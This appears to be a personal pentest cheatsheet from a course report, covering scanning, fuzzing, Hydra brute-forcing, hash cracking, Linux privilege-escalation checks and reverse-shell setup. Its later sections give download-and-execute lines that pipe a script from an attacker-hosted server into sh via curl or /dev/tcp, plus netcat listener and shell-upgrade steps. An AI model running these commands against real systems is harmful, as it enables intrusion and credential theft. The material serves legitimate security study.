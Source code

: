 ### My current Pentest Cheatsheet   
Updated: *15.05.2023*   
[See sources and credits](report.md#y-the-super-ultimate-hakk3r-che33tsheet-001-tee-tiivistelm%C3%A4-omista-ja-kavereiden-parhaista-tunketumistekniikoista-ole-t%C3%A4sm%C3%A4llinen-liit%C3%A4-komennot-mukaan-t%C3%A4m%C3%A4n-kohdan-vastaus-lienee-pidempi-kuin-aiempien-x-teht%C3%A4vien-viittaa-l%C3%A4hteisiin-t%C3%A4ss%C3%A4-alakohdassa-ei-tarvitse-ajaa-komentoja-tietokoneella)

**Nmap:**
```bash
Example: sudo nmap -A -p- <address> -oA filename 
Everything: -A
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p0-
Output (All Formats): -oA filename
```

**Gobuster**
```bash
# Directories
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u http://address

# Vhosts
gobuster vhost -w /usr/share/wordlists/dirb/small.txt -u address --append-domain
```

**Ffuf**
```bash
# Sites
ffuf -w /path/to/wordlist -u https://target/FUZZ

# Vhosts
ffuf -c -w /path/to/wordlist -u http://ffuf.io.fi -H "Host: FUZZ.ffuf.io.fi"

# Filter out response length
-fs <bytesize>
```

---
**Hydra:**
- SSH   
```bash
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P
Port: -s
Tasks: -T
```

**Searchsploit:**
```bash
Example: searchsploit SOMETHING
Read Exploit: -x
Copy to current location: -m
Update: -u
```

**SQLi Cheatsheet:** 
https://portswigger.net/web-security/sql-injection/cheat-sheet

---
**Hashcat:**
```bash
Hash Mode: -m <id>
   0 | MD5
1400 | SHA2-256 
1700 | SHA2-512

Attack Mode: -a <id>
0 for dictionary
---
3 for mask
Masks:
  ?l | low caps
  ?u | high caps
  ?d | numbers
  ?h | numbers + low caps
  ?H | numbers + high caps
  ?s | special characters
  
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Out File: -o
Usernames in Hashfile: --username
```

**John:**
```bash
john --wordlist=/path/file hash.file
```

**Wordlist Gen:**

**Cewl**
```bash
cewl -w wordlist <url>
```

**Crunch**
```bash
TBA
```

**From a file:**
**Python Script**
```bash
#!/bin/python3
import sys
import re

if len(sys.argv) != 2:
    print("Usage: wordlist_gen <filename>")
    sys.exit(1)

filename = sys.argv[1]

with open(filename, "r") as file:
    for line in file:
        # Replace non-alphanumeric characters with space
        line = re.sub(r"[^\w\s]", " ", line)
        # Split line into words and iterate over them
        for word in line.split():
            print(word)
```

**Sed**
```bash
sed 's/[^a-zA-Z0-9 ]//g; s/ /\n/g; /^$/d' <filename> | tr -s '\n'
```

---
**PrivEsc stuffz:**
```bash
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Readable: find / -perm -o+w
```
**Find**
- Disable "permission denied and stuffs" printing:   
```bash
find / -name <something> 2>/dev/null
```

**Good place to put exploits, scripts and stuffs on victim:**   
```bash
 /dev/shm/
 /tmp/
```

**Send files from Attacker to Target:**     
```bash
sudo python -m http.server PORT #Host
wget ATTACKERIP:PORT/filename #Victim
```
OR:   
**Run script over the network:**   
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl <ip_address>/script.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < script.sh #Host
cat < /dev/tcp/<ip_address>/<port> | sh #Victim
```
Source: [Linpeass](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

**Reverse shells:**   
Host, netcat listener:    
```bash
nc -lvnp PORTNUMBER  
```
Shells:   
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

---
**Improved shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + z

stty raw -echo; fg
export TERM=xterm
```
